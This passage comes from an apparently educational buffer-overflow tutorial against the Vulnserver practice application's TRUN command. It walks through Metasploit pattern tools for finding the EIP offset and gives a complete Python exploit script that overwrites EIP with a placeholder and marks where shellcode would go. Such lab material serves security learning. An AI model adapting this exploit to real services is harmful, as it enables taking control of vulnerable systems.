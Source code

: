 ```python
payload = b"".join(payload) # 8 - joinging the payload with a byte string.

s.send(payload) # 9 - send the payload. 1st RUN HERE.
s.close()
```
{% endcode %}

Now we have control over the EIP value, but we dont know where the offset spot that crashes the app is.

Instead of sending AAAAAAA's, we can use Metasploit to create a cyclic pattern of characters using the "msf-pattern-create" and "msf-pattern-offset" to easily find that Offset spot.

<pre class="language-python" data-overflow="wrap" data-line-numbers><code class="lang-python"># in kali terminal.
<strong>msf-pattern-create -h # view help menu.
</strong>msf-pattern-create -l 2984 # creates cyclical random chars, we can copy it, and replace the value at line 16, step 6 in the above python code with the chars.
</code></pre>

```python
# instead of,
 b"A" * total_length # 6 - sends 2984 A's to the vulnserver app.
# it will look like this, we are now sending the generacted chars.
b"................................................."

# We get the EIP value and use the msf-pattern-offset to find the Offset spot.
msf-pattern-offset -l 2984 -q <EIP value>
# it gives us the exact Offset value.
```

Our new Python code will look like this now...

{% code title="exploit.py" overflow="wrap" lineNumbers="true" %}
```python
#!/usr/bin/python
import socket

# 1 - we establish a connection to the victim pc.
s = socket.socket()
s.connect(("$ip", 9999))

total_length = 2984 # 2 - we will be working with this value.
offset = 2003 # 6 - this is our Offset point/value.
new_eip = b"BBBB" # 11 - this becomes the new EIP value, ie, 42424242.

# 3 - we use a list to orderly arrange each parts of our payload.
# 4 - in python3, when we are communicating with a socket, we have to send all the data in bytes ie, <b"">
payload = [
    b"TRUN /.:/", # 5 - copy the exact value used by .spk script (in the 2nd Panel).
    b"A" * offset, # 10 - sends exactly 2003 A's to the vulnserver app.
    new_eip, # 12 - the new EIP value prints exactly after the 2003 A's, which means we have used up 2003 + 4 out of 2984bytes.
    b"C" * (total_length - offset - len(new_eip)) # 13 - this is the data/address that gets executed after the EIP ie, ESP. Meaning this is the spot we wil put our shell code, since this is the new ESP value, that points to what the EIP will execute next, ie, our shell code. But in this case we just pass in a bunch of C's to execute for testing purpose.
]
# 7 - putting together our payload/
payload = b"".join(payload) # 8 - joinging the payload with a byte string.

s.send(payload) # 9 - send the payload. 1st RUN HERE.
s.close()


```